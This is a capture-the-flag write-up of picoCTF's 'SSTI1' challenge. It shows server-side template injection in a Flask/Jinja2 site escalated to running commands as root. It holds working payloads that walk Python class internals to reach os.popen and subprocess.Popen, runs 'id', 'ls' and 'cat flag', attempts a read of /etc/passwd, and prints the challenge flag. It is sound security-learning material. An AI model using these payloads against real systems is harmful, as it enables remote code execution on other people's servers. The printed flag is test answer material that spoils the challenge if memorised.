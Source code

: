 ###SSTI1###

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>summary>
Directly changing your URL to this announce page doesn't yield results:
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.
![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)
"The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."

Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}
Returns: <class 'object'>

Sending: {{g.__class__.__mro__}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: {{g.__class__.mro()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['mro']()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['__mro__']}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: {{get_flashed_messages}}
Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: {{get_flashed_messages.__class__}}
Returns: <class 'function'>

Sending: {{get_flashed_messages.__class__.__mro__}}
Returns: (<class 'function'>, <class 'object'>)

Sending: {{get_flashed_messages.__class__.__mro__[1]}}
Returns: <class 'object'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
Returns: This returns all the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: {{g}}
Returns: <flask.g of 'app'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}
Returns: <class 'mappingproxy'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}
Returns: /etc/passwd

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: {{app.__class__}}
Returns: <class 'jinja2.runtime.Undefined'>

Sending: {{app.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: {{app.__class__.__mro__[1].__subclasses__()}}, I received all the subclasses again, This time I put this into my IDE and replaced all commas with newlines to better visualise this set.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen by specifying the above string which I will shorten to PAY1
{{app.__class__.__mro__[1].__subclasses__()[356]}} = PAY1

PAY1(<args>, stdout=-1).communicate()[0].decode()

if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}
Returns:
total 12
drwxr-xr-x 1 root root    25 Apr 13 03:37 .
drwxr-xr-x 1 root root    23 Apr 13 03:37 ..
drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__
-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root    58 Mar  6 19:43 flag
-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt

Seems like we found a flag file, lets check out what the requirements.txt are first.
Seems like the decode() function was throwing an error, removing this and converting this separately in python allowed us to see the following:

ÿþblinker==1.8.2
click==8.1.7
colorama==0.4.6
Flask==3.0.3
itsdangerous==2.2.0
Jinja2==3.1.4
MarkupSafe==2.1.5
Werkzeug==3.0.3

Seems like just details for the application to run, maybe a docker thing?

Anyways, lets cat the flag with:
{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}

Whoopee!

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


